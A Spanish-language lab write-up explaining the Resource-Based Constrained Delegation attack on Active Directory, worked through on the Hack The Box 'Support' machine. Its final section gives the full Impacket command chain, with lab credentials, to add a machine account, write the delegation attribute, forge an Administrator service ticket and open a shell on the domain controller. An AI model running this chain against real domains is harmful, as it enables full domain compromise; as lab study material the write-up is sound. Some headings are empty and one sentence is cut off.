


# Resource-Based Constrained Delegation (RBCD) ATTACK

## Descripción de la Vulnerabilidad
Resource-Based Constrained Delegation (RBCD) es una característica de Active Directory (AD) que permite a un recurso (como una cuenta de computadora) especificar qué cuentas pueden delegar autenticación en su nombre. A diferencia de la delegación restringida tradicional, donde el delegador (origen) define los servicios a los que puede delegar, en RBCD el recurso objetivo define quién puede delegar hacia él mediante el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity`.

### ¿Por qué es una vulnerabilidad?
Si un atacante obtiene control sobre una cuenta con permisos para modificar el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` de un recurso (como una cuenta de computadora del controlador de dominio), puede configurar RBCD para permitir que una cuenta controlada por el atacante (e.g., una cuenta de computadora creada por él) delegue autenticación hacia ese recurso. Esto permite al atacante impersonar a cualquier usuario (como `Administrator`) y obtener acceso al recurso objetivo, como el controlador de dominio.

### Ejemplo de HTB SUPPORT

En este caso, el usuario `support` tenía permisos `GenericAll` o `GenericWrite` sobre la cuenta de computadora del DC (`DC$`), lo que permitió modificar el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` y abusar de RBCD para impersonar a `Administrator`.

completo al Dominio: Al impersonar a `Administrator`, el atacante puede obtener una shell en el controlador de dominio y comprometer todo el dominio.

---

## Identificación de la Vulnerabilidad
Para identificar si RBCD puede ser explotado en un entorno Active Directory, necesitamos buscar cuentas que tengan permisos para modificar el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` de otras cuentas (especialmente cuentas de computadoras privilegiadas, como la del controlador de dominio).

### Identificación con bloodhound

---

---

---

### Herramientas Necesarias
- BloodHound: Para identificar relaciones y permisos en el dominio.
- ldapsearch o PowerView: Para enumerar permisos manualmente.
- Impacket: Para verificar permisos y explotar la vulnerabilidad.
- Rubeus: Para realizar ataques de Kerberos y obtener tickets TGT.

## Pasos de explotación
- `addcomputer.py -dc-ip 10.10.11.174 support.htb/support:Ironside47pleasure40Watchful -computer-name attackersystem -computer-pass Summer2018!`
    - Utilizamos addcomputer.py para crear una computadora en el dominio con el usuario que identificamos como vulnerable.
- `rbcd.py -dc-ip 10.10.11.174 -action write -delegate-to DC$ -delegate-from attackersystem$ support.htb/support:Ironside47pleasure40Watchful`
    - Usamos rbcd.py para modificar el atributo msDS-AllowedToActOnBehalfOfOtherIdentity de DC$ y permitir que attackersystem$ delegue.
- `getST.py -dc-ip 10.10.11.174 -spn host/DC.SUPPORT.HTB -impersonate Administrator support.htb/attackersystem$:Summer2018!`
    - Usamos getST.py para realizar el ataque S4U (S4U2self y S4U2proxy) y obtener un ticket de servicio (TGS) para host/DC.SUPPORT.HTB como Administrator
- Exportamos el ticket `export KRB5CCNAME=$(pwd)/Administrator.ccache`
- Nos conectamos como Administrator al DC: `wmiexec.py -k -no-pass support.htb/Administrator@DC.SUPPORT.HTB`